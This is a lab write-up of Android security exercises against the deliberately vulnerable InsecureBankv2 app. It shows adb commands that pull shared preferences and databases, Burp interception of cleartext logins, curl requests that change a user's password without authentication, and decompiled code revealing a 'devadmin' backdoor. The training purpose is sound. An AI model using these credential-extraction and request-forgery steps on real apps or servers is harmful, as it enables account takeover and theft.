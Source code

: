# Tasks
This file contains tasks related to Android mobile reversing.

## Insecure data storage

### Exploiting local data storage

#### Task 1: Find and read the Android Shared Preferences
1. Find the package name

This requires root. With images that use Google APIs,
you may easily get root by entering the following command:
```
$ adb root
```

Without Google API, you may 

Another way, and how I chose to solve this, was using _su_
as in the following snippet:
```bash
Android-InsecureBankv2> adb shell
generic_x86:/ $ su
generic_x86:/ # pm list packages | grep <packagename>
```

2. Copy all preferences to your machine.

Often you would like to have files locally on your machine,
and not on the device you are reversing. To do this, you
need root on the device. However, using _su_ will not do the
magic for us now as that is just within the shell. With images 
that use Google APIs, you may use:
```bash
$ adb root
```

And then, you can use another _adb_ command to pull the file
to you local machine:
```bash
$ adb pull /data/data/<package_name>/shared_prefs/<preference_file>.xml
```

3. Does the file contain anything juicy?

Hellz yeah, it does!
```bash
Android-InsecureBankv2> cat .\mySharedPreferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==&#10;    </string>
    <string name="EncryptedUsername">ZGluZXNo&#13;&#10;    </string>
</map>
```

#### Task 2: Exploit database
1. Where are the database(s) for this application located?

`/data/data/com.android.insecurebankv2/databases`

2. Copy the database out of the device

`adb pull /data/data/com.android.insecurebankv2/databases .`

3. What type of database is this?

SQLite 3:
```bash
$ cd databases
$ file mydb
mydb: SQLite 3.x database, user version 1, last written using SQLite version 3019004
```

4. Dump the schema
```bash
$ sqlite3 mydb
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE android_metadata (locale TEXT);
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
CREATE TABLE sqlite_sequence(name,seq);
```

5. List all tables
```bash
sqlite> .tables
android_metadata  names
```

6. Dump all the tables
```bash
sqlite> .dump names
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL);
INSERT INTO names VALUES(1,'dinesh');
COMMIT;
sqlite> .dump android_metadata
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE android_metadata (locale TEXT);
INSERT INTO android_metadata VALUES('en_US');
COMMIT;
```

---

### Exploiting insecure communication
To solve all of the following tasks, Burp Suite was used to intercept all the
traffic coming from the Android emulator. To do this, first install Burp. Open
Burp and click the `Proxy` tab. Ensure that intercept is `on`. To make the app
use Burp as a proxy, go into settings in the emulator and click the `proxy` tab.
Enter the IP address of your computer and set the port to 8080, which is the
default port used by Burp. Traffic should now go through Burp.

What happens when you log in?
1. What protocol is used?
`HTTP`

2. Is it encrypted?
No. Only HTTP is used, not HTTPS.

3. Can you see any sensitive data?
Yes, username and password is sent in clear text.

4. Can you identify other API endpoints?
In the Transfer-menu:
* `/getaccounts` when you press `Get Accounts`
* `/dotransfer` when you press `Transfer`
In the main menu:
* `/changepassword` when you press `Change Password`

Forging requests
1. Can you change the password of `dinesh` without logging in first?
Yes, there is no validation on the server to see if you are already logged in.
We can simply send a POST request to `/changepassword` on the server with the
expected parameters.
From looking at intercepted requests in Burp, we know that the request looks
like this:

```
POST /changepassword HTTP/1.1
Content-Length: 48
Content-Type: application/x-www-form-urlencoded
Host: 192.168.1.105:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=<username>&newpassword=<password>
```
The easiest way to send a forged request is to click Action -> Send to repeater
in Burp. This allows you to click on the `Repeater` tab, change the contents as
you want, and send the modified request.

You can also use curl like this:
```bash
$ curl -d "username=dinesh&newpassword=lol" http://192.168.1.105:8888/changepassword
{"message": "Change Password Successful"}
```
And then verify that we can still log in:
```bash
$ curl -d "username=dinesh&password=lol" http://192.168.1.105:8888/login
{"message": "Correct Credentials", "user": "dinesh"}
```


2. Any other requests you can forge?
We can forge all requests to the server, as there's no checks in place to make
sure that we are logged in. We could transfer money between two accounts, for
example!

## Extraneous Functionality

#### Task 1: Find the backdoors
1. Can you find any backdoors or other developer tools left in the app?
After decompiling the source code, e.g. using jadx, we can see that there is a
hidden endpoint at `/devlogin`. Here's an excerpt of the code:
```Java
public void postData(String valueIWantToSend) throws ClientProtocolException, IOException, JSONException, InvalidKeyException, NoSuchAlgorithmException, NoSuc
hPaddingException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
	HttpResponse responseBody;
	HttpClient httpclient = new DefaultHttpClient();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.append(DoLogin.this.protocol);
	stringBuilder.append(DoLogin.this.serverip);
	stringBuilder.append(":");
	stringBuilder.append(DoLogin.this.serverport);
	stringBuilder.append("/login");
	HttpPost httppost = new HttpPost(stringBuilder.toString());
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.append(DoLogin.this.protocol);
	stringBuilder2.append(DoLogin.this.serverip);
	stringBuilder2.append(":");
	stringBuilder2.append(DoLogin.this.serverport);
	stringBuilder2.append("/devlogin");
	HttpPost httppost2 = new HttpPost(stringBuilder2.toString());
	List<NameValuePair> nameValuePairs = new ArrayList(2);
	nameValuePairs.add(new BasicNameValuePair("username", DoLogin.this.username));
	nameValuePairs.add(new BasicNameValuePair("password", DoLogin.this.password));
	if (DoLogin.this.username.equals("devadmin")) {
		httppost2.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost2);
	} else {
		httppost.setEntity(new UrlEncodedFormEntity(nameValuePairs));
		responseBody = httpclient.execute(httppost);
	}
	[...]
}
```
If you supply `devadmin` as the username, you will simply be logged in without
having to enter a password

2. What can these be used for?

3. If they pose a security risk, what would you do to fix it?
4. Enable debugging on an app that doesn't have it enabled by default.

